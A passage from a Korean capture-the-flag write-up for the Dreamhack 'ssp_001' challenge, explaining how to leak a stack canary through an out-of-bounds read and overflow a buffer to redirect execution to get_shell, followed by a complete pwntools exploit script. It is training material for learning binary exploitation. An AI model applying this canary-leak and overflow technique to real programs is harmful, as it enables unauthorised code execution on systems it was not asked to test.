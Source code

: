         - `return = 0xf7da2519`
        - `ebp = 0xf7ffd020`
        - `canary = 0x8df05f00`
        - `dummy = 0xf7ffcb80`
    
    ### 전체 스택 구조 시각화
    
    ![Untitled](./w[Dreamhack]_ssp_001.assets/Untitled%201.png)
    

### 익스플로잇 코드 작성

- 카나리 릭
    - 메뉴 `P`를 이용하면 64 이상의 index를 주어 `box` 밑에 있는 값을 출력할 수 있기 때문에 이를 이용해서 카나리 릭을 할 수 있음
    - `box` ~ `canary` 까지의 거리는 128byte니깐 index를 128~131을 주면 카나리 값을 릭할 수 있음
- 버퍼 오버 플로우
    - `name` ~ `RET` 까지의 거리는 80byte이기 때문에
    - `name_size`를 84바이트로 설정하여 payload를 입력하면 `get_shell` 함수의 주소로 리턴값을 설정할 수 있음

### 전체 익스플로잇 코드

```python
from pwn import *

def slog(n, m): 
    return success(': '.join([n, hex(m)]))

# p = remote('host3.dreamhack.games', 22826)
p = process('./ssp_001')
e = ELF('./ssp_001')
context.arch = 'i386'

canary = b''
get_shell = e.symbols['get_shell'] # get_shell function address

for i in range(0x83, 0x7f, -1) : # consider little endian
    p.sendafter(b'> ',b'P') # read -> use sendafter
    p.sendlineafter(b'Element index : ', bytes(str(i),'utf-8')) # scanf -> use sendlineafter
    p.recvuntil(b'is : ')
    canary += p.recv(2)

canary = int(canary,16)
slog("canary", canary)

payload = b'A' * 0x40
payload += p32(canary)
payload += b'B'*4 # dummy
payload += b'C'*4 # ebp
payload += p32(get_shell) # ret -> get_shell

p.sendafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', bytes(str(len(payload)),'utf-8')) # name_len -> trigger bof
p.sendafter(b'Name : ',payload)
p.interactive()
```